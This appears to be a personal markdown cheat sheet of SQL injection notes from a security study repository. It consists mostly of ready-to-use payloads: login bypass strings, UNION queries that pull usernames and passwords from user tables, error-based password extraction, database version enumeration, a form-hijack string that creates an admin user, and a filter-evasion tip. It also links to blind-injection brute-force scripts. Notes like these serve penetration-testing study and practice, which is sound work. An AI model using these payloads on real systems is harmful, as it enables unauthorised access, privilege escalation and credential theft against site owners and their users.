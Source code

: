 # SQLi notes

#### Testing booleans
Remember to try `AND` `OR` `HAVING`

#### Example PoCs: [BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py) [BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)

#### Bypass login
`admin' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1` in username field and then `pass` in password field  
`' or 1 =1 LIMIT 1,1#`

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`  
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`

#### Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` (postgresql) `#` (mysql) `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation

Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function

Check for true vs false responses

### [Error Based SQLi](https://github.com/kymb0/web_study/blob/master/sqli/error_based_sqli.md)
